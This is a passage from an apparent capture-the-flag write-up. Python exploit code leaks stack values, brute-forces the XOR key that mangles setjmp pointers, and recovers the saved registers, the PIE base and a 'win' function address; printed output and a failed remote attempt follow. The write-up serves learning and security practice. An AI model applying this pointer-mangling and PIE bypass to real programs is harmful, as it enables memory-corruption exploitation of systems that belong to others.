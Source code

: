 ```py


leaks = leak_cookie()
print(f"Known leak : {hex(leaks['leak1'])}")
print(f"enc   rip  : {hex(leaks['rip'])}")

# the xor key is always in the range [0x18, 0x308] and ends with 0x8
for count, i in enumerate(range(0x18, 0x308, 0x10)):
    xor_key = calculate_xor_key(leaks["leak1"], -i, leaks["rbp"])
    print(f"test n°{count+1:02} : stack offset = -0x{i:02x}")
    if (calculate_setjmp_addr(leaks['rip'], xor_key) & 0xfff == 0x31f):
        print(f"FOUND !! <offset={i}> <xor_key={hex(xor_key)}>")
        break
    else:
        print("xor key not found :-(")

rip_leak  = calculate_setjmp_addr(leaks['rip'], xor_key)
rbp_leak  = calculate_setjmp_addr(leaks['rbp'], xor_key)
rsp_leak  = calculate_setjmp_addr(leaks['rsp'], xor_key)
base_addr = rip_leak - JMPBUF_RIP_OFFSET
win_addr  = base_addr + WIN_OFFSET

print(f"RIP  leak : {hex(rip_leak)}")
print(f"RBP  leak : {hex(rbp_leak)}")
print(f"RSP  leak : {hex(rsp_leak)}")
print(f"Base addr : {hex(base_addr)}")
print(f"Win  addr : {hex(win_addr)}")
```

Which gives us:
```
Known leak : 0x7ffcd52cfab8
enc   rip  : 0x7f7c30562d21198e
test n°01 : stack offset = -0x18
<snip>
test n°17 : stack offset = -0x118
FOUND !! <offset=280> <xor_key=0x8cc76a7169a5058f>
RIP  leak : 0x55cf718e131f
RBP  leak : 0x7ffcd52cf9a0
RSP  leak : 0x7ffcd52cf880
Base addr : 0x55cf718e0000
Win  addr : 0x55cf718e1595
```

PIE bypassed 😎

Just to be happy, I decided to test it remotely at this point
```
leak1  - 0x0000000000000000
rbp    - 0xc73979fe79b6b2e1
null1  - 0x0000065a6d28a110
leak2  - 0x0000000000000000
null2  - 0x0000000000000000
leak3  - 0x0000000000000000
rsp    - 0xc73979fe7b76b2e1
rip    - 0x23efeaa70d28b2e1
Known leak : 0x0
enc   rip  : 0x23efeaa70d28b2e1
test n°01 : stack offset = -0x18
<snip>
xor key not found :-(
```
